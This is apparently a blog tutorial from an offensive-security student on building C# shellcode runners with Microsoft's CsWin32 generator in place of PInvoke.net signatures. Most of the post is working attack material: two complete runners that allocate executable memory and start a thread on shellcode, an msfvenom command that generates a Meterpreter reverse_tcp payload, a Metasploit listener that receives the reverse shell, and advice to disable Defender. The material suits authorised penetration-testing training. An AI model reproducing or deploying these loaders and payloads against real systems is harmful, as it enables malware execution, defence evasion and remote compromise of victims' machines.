During Offensive Security’s [Pen 300](https://www.offsec.com/courses/pen-300/) course, you’ll get hands-on experience with various techniques for bypassing Windows defenses using C#. These methods often require the use of unmanaged code. I figure C# was chosen not just for its versatility but also because of its tight integration with PowerShell. You’ll frequently see C# code embedded in PowerShell scripts via `Add-Type` throughout the course.

Building tools to bypass Windows Defender and other defenses has traditionally involved **P/Invoke** (`Platform Invoke`), using the `[DllImport]` attribute. For years, [PInvoke.net](https://pinvoke.net/) has been the go-to repository for grabbing the necessary signatures to drop straight into your code.

An example of using P/Invoke with PInvoke.net might look like this:

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
```

Here, the developer manually imports the functions `VirtualAlloc` and `VirtualFree` from `kernel32.dll`, specifying the calling conventions, marshaling behavior, and error handling. 

I’ve always found `[DllImport]` statements to be a bit of a hassle, especially when PInvoke.net was either down or too slow to grab what I needed. That’s when I discovered the [CsWin32 Project](https://github.com/microsoft/CsWin32), which totally changes the game by automating the generation of Win32 `P/Invoke` signatures at compile time. With CsWin32, copying and pasting from PInvoke.net is replaced by an automatic source generator. CsWin32 generates P/Invoke signatures at compile time based on metadata from Windows SDKs, ensuring that the code is always correct, up-to-date, and optimized for the .NET runtime.

The question was whether or not I could transition my code to CsWin32. There is some burden on the programmer when making this transition due to the Win32 APIs being native to C/C++ of which I know very little. However after some failures, I was able to transition most of my C# code base over to using CsWin32. There are still cases where you’ll need to fall back on PInvoke.net, especially when dealing with `Zw` or `Nt` functions, which are part of the Native API and generally lack proper documentation. Seeing as how Microsoft is driving the CsWin32 project, I'm not sure those will be included and one needs to use the PInvoke.net signatures and/or consider using C/C++ any code required those methods.

Let’s walk through how to use CsWin32 in offensive tooling by building a simple shellcode execution program. We’ll start with the basics: allocating memory, copying the shellcode into it, and spinning up a thread to run the payload. Below is a basic example of an injection attack. Using PInvoke.net signatures the C# code might look like the following:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {

            byte[] buf = new byte[511] {<shellcode};
            int size = buf.Length;
            
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

There are three of the `[DllImport]` statements, but as the code complexity grows, one can end up with a great many `[DllImport]`, but by using CsWin32, the amount of code that is needed for this simple injection is reduced to something I think looks nicer.

```csharp
using System;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.System.Memory;
using Windows.Win32.Foundation;

namespace ShellCodeRunnerCsWin32
{
    internal class Program
    {

        static unsafe void Main(string[] args)
        {

            byte[] buf = new byte[###] {<shellcode>};

            UIntPtr msize = (UIntPtr)(uint)buf.Length;
            
            void* allocatedMemory = PInvoke.VirtualAlloc(null, msize, VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            Marshal.Copy(buf, 0, (IntPtr)allocatedMemory, buf.Length);

            Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE allocatedMemoryPointer = (Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE)Marshal.GetDelegateForFunctionPointer((IntPtr)allocatedMemory,  typeof(Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE));

             HANDLE h = PInvoke.CreateThread(null, (UIntPtr)0, allocatedMemoryPointer, (void*)0, 0 );
            PInvoke.WaitForSingleObject(h, 0xFFFFFFFF);

        }
    }
}
```

### **Summary of the Code Flow:**
1. **Allocate memory** using `VirtualAlloc` with read/write/execute permissions.
2. **Copy shellcode** (or any code) into that allocated memory using `Marshal.Copy`.
3. **Create a new thread** using `CreateThread` that starts execution at the shellcode's memory location.
4. **Wait for the thread to complete** using `WaitForSingleObject`.

### Getting Started with CsWin32

Admittedly, getting CsWin32 installed requires a fair amount of steps. 

1. Once your C# project is open in Visual Studio, navigate to  `Tools -> NuGet Package Manager -> Manage NuGet Packages for Solutions`.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Tools-NuGet.png)

2. Search for cswin32
![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NuGet-CsWin32.png)

3. Install...this will also install dependencies which need to be accepted (SDK.Win32Metadata, WDK.Metadata, and SDK.Win32Docs)
4. From the CsWin32 github page (https://github.com/microsoft/cswin32): "You should also install the `System.Memory` and `System.Runtime.CompilerServices.Unsafe` packages when targeting .NET Framework 4.5+ or .NET Standard 2.0, as these add APIs that significantly improve much of the code generated by CsWin32"
5. Search for `System.Memory` and `System.Runtime.CompilerServices.Unsafe` and install via the GUI or install via the command line:
```cmd
dotnet add package System.Memory
dotnet add package System.Runtime.CompilerServices.Unsafe
```
6.  within the source code layout create a text file named `NativeMethods.txt`
7.  add the Win32 APIs needed to `NativeMethods.txt` and each method will be auto-generated.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NativeMethods.png)


8. The APIs can be viewed under Analyzers in the `Solution Explorer`

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Analyzers.png)

From here, the arguments for the function calls need to be properly 


### Execution

We can start by creating some shellcode with msfvenom.

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=9001 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of csharp file: 2623 bytes
byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
...
}
```

Then copy the output `byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8` and paste into the `Main` method of `Program.cs`. Compile the C# code and navigate in a terminal to where the newly created `.exe` is located.

*Note:* Be sure to turn off Defender or configure Defender to not scan the directory where the `*.exe` is located.

![](Images/Coding/CsWin32InsteadOfPInvoke/ShellCodeRunnerCsWin32-Compiled.png)

On my Kali Linux VM, I start Metasploit console to await the reverse shell.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Metasploit.png)

...and here it is...

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-MetasploitReverseShell-01.png)


CsWin32 handles the heavy lifting by auto-generating P/Invoke signatures that are always up-to-date. It saves you from manually managing signatures and gives you a streamlined, efficient way to interface between C# and the native Windows APIs.